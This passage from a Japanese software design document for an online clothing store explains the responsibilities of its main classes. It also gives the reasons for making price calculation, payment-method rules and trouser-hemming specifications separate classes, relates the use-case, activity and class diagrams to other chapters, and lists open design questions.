

#### 8.3.3 主要なクラスの責務

| クラス | 責務 |
|---|---|
| Cart / CartItem | カートの内容を保持し、明細の追加と統合を担う |
| Alteration | すそ上げの指定。加工方法と丈の依存関係を自身で検証する |
| Stock | 在庫数を保持し、引当可能数を算出する |
| Reservation | 引当の状態を保持し、有効性を判定する |
| Order / OrderItem | 注文の内容を保持する。注文時点の値をコピーして保持する |
| Member | 会員の情報を保持し、パスワードを照合する |
| PriceCalculator | 金額を算出する |
| PaymentMethodPolicy | 支払方法の選択可否を判定する |
| ReservationService | 引当のトランザクションを制御する |
| OrderService | 注文確定の処理を統括する |

#### 8.3.4 PriceCalculator を独立させた理由

金額の算出を Order クラスのメソッドとせず、独立したクラスとする。

| 対象 | 変更の頻度 |
|---|---|
| 注文のデータ構造 | 低い |
| 送料の基準額、支払手数料、消費税率 | 事業判断および法令により変わりうる |

両者の変更の頻度が異なるため、分離する。3.3.3 において在庫数量と店舗の属性を別
テーブルとした判断と同一の考え方による。

また、金額の算出は Frontend と Backend の双方で行う（DS-435、DS-436）。ロジックを
独立させることで、双方が同一の仕様を参照しやすくなる。

#### 8.3.5 PaymentMethodPolicy を独立させた理由

選択肢の制約の判定を、独立したクラスとする。

要件定義書 NFR-62 および DS-434 において、判定条件を設定として保持することを定めた。
支払方法または配送方法が追加された場合、判定条件が増加する。判定を Order や
CheckoutService に埋め込むと、追加のたびにそれらのクラスを改修することになる。

本クラスは以下を担う。

| メソッド | 内容 |
|---|---|
| availableMethods | 配送方法と置き配の指定から、選択可能な支払方法を返す |
| reasonFor | 選択できない場合、原因となっている選択を特定して返す（DS-623） |

②で ORDER & PICK が追加された場合、制約が増える。本クラスの設定を変更することで
対応する。

#### 8.3.6 Alteration を独立させた理由

すそ上げの指定を、CartItem および OrderItem の属性として展開せず、独立した型とする。

理由は2つある。

- 加工方法と丈には依存関係がある（要件定義書 FR-564-02）。両者を1つの型として扱う
  ことで、片方のみが設定された状態を型として表現できなくする
- CartItem と OrderItem の双方で同一の構造を用いる。定義を1箇所とする

`isValidFor(product)` は、当該商品がすそ上げ可能であること、および丈が元の丈を
超えないこと（DS-711）を検証する。

### 8.4 図の相互の関係

本章の3つの図と、他章との対応を示す。

| 図 | 対応する章 | 視点 |
|---|---|---|
| ユースケース図 | 6.2（エンドポイント一覧） | 顧客が何をできるか |
| アクティビティ図 | 4章（処理シーケンス） | 処理がどう進むか |
| クラス図 | 3章（データ設計） | 構造がどうなっているか |

同一の対象を異なる視点から表現したものであり、いずれかが他を代替するものではない。

### 8.5 未確定事項

1. Controller および Repository の構成（実装時に定める）
2. トランザクションの境界を Service に置く方式の詳細
3. PaymentMethodPolicy の設定の保持形式
